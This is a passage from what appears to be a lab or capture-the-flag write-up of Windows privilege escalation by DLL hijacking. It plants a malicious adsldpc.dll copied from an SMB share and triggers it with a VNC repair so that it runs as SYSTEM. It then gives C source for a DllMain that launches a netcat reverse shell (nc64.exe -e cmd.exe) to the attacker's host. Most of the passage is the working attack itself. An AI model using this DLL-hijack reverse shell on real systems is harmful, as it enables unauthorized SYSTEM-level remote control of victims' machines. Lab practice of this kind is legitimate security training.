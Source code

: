 1. Copy the file over with smbserer running ``copy \\10.x.x.x\public\proxy.dll`` and rename ``move proxy.dll adsldpc.dll``
2. Running VNC repair in add/remove programs will give us the output.txt and we can see the user is ``nt authorioty/system``

##   Repeat with Reverse Shell To get Flag

1. ncshell.c

```c
#include <windows.h>

BOOL WINAPI DllMain(HMODULE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    if (fdwReason == DLL_PROCESS_ATTACH) {
            system("C:\\tools\\nc64.exe -e cmd.exe 10.x.x.x 6666");
    }

    return TRUE;
}
```

2. compile dll again/copy over, repeat VNC repair after setting up netcat listener on kali machine.

* * * 
